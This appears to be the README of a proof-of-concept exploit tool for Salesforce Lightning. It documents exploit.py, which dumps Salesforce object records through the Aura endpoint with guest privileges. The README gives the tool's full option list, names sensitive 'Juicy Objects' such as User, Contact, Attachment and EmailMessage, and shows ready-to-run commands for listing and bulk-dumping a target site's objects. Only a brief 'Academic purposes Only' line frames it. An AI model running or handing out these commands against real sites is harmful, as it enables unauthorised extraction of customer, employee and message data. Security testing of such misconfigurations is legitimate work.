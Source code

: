 # PoC for Salesforce lightning
***Academic purposes Only***. 


This tool dumps the data of Salesforce object through Aura lightning endpoint with the guest privilege.


雑なコードだけど許してくれい


# Requirement
- Python3 

# Usage
```
$ python3 exploit.py -h
usage: exploit.py [-h] -u URL [-o [OBJECTS ...]] [-l] [-c] [-a AURA_CONTEXT] [-t AURA_TOKEN] [-k COOKIES] [-r RECORD_ID] [-d] [-f] [-s]

Exploit Salesforce through the aura endpoint with the guest privilege

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     set the SITE url. e.g. http://url/site_path
  -o [OBJECTS ...], --objects [OBJECTS ...]
                        set the object name. Default value is "User" object. Juicy Objects: Case,Account,User,Contact,Document,ContentDocument,ContentVersion,ContentBody,CaseComment,Note,E
                        mployee,Attachment,EmailMessage,CaseExternalDocument,Attachment,Lead,Name,EmailTemplate,EmailMessageRelation
  -l, --listobj         pull the object list.
  -c, --check           only check aura endpoint
  -a AURA_CONTEXT, --aura_context AURA_CONTEXT
                        set your valid aura_context
  -t AURA_TOKEN, --aura_token AURA_TOKEN
                        set your valid aura_token
  -k COOKIES, --cookies COOKIES
                        set your valid cookies
  -r RECORD_ID, --record_id RECORD_ID
                        set the recode id to dump the record
  -d, --dump_objects    dump a small number of objects accessible to guest users and saves them in the file.
  -f, --full            if set with -d, dump all pages of objects.
  -s, --skip            if set with -d, skip the objects already dumped.
```

# Examples 
```
# just list objects
$ python3 exploit.py -u https://domain.force.com/path/ -l

# show User and Account object
$ python3 exploit.py -u https://domain.force.com/path/ -o User Account

# save all objects(only page 1)
$ python3 exploit.py -u https://domain.force.com/path/ -d -s
```

# Reference
- Salesforce Lightning - An in-depth look at exploitation vectors for the everyday community
  - https://www.enumerated.de/index/salesforce
